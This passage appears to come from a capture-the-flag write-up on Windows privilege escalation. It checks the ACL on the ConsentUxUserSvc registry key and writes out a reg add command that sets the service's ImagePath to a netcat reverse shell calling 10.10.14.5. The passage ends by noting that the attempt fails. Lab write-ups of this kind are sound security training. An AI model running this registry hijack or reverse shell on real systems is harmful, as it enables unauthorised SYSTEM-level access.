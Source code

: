 Looks like I can view the service, but we can't just choose any service. It has to be one that's executed with higher privileges, like `NT AUTHORITY\SYSTEM` or `BUILTIN\Administrators`.

If I run the following, we can see that the owner of `ConsentUxUserSvc` is `NT AUTHORITY\SYSTEM`:

`(Get-ChildItem "HKLM:\SYSTEM\CurrentControlSet\Services\ConsentUxUserSvc").PSPath | Get-Acl | fl`

<img src="/assets/img/posts/Control/get-childitem-consentuxusersvc-permissions.png">

So all we have to do is change the `ImagePath` to point to something else, like a reverse shell, and start the service.

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\ConsentUxUserSvc /v ImagePath /D "c:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.14.5 6666"
```

And that fails.

<img src="/assets/img/posts/Control/start-service-consentuxusersvc-fail.png">
